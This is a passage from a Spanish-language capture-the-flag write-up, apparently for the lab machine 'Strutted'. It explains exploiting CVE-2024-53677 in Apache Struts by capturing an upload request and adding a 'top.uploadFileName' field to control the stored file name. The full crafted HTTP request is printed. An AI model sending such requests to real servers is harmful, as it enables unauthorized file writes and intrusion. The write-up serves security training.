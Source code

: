 Si exploramos más la web, nos encontramos con el "UploadInterceptor":

![image](../zimages/Pasted_image_20250327130630.png)

# CVE-2024-53677 Path Traversal Exploitation

Una vez visto el funcionamiento de todo esto, vamos a explotar la vulnerabilidad. Si recordamos el script de python, utilizaban el parámetro `top.uploadFileName` en la solicitud web para cambiar el nombre después de ser procesado, mediante el Interceptor, así que nos abrimos el Caido y probamos a subir una imagen en la web para ver la solicitud y compararla:

```bash
POST /upload.action HTTP/1.1
Host: strutted.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://strutted.htb/
Content-Type: multipart/form-data; boundary=---------------------------73222280540321048361232719302
Content-Length: 166165
Origin: http://strutted.htb
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Cookie: JSESSIONID=EC9DB60A6FF74AA56A49D7B878B20D67
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------73222280540321048361232719302
Content-Disposition: form-data; name="Upload"; filename="pngimg.com - linux_PNG47.png"
Content-Type: image/png

PNG
Probando
-----------------------------73222280540321048361232719302
Content-Disposition: form-data; name="top.uploadFileName"

test.txt
-----------------------------73222280540321048361232719302--
```

Una vez adaptada la solicitud para abusar de la vulnerabilidad, la enviamos y probamos a meternos en el directorio de subida, llamado, en mi caso `uploads/20250327_122833/test.txt`:

![image](../zimages/Pasted_image_20250327132923.png)
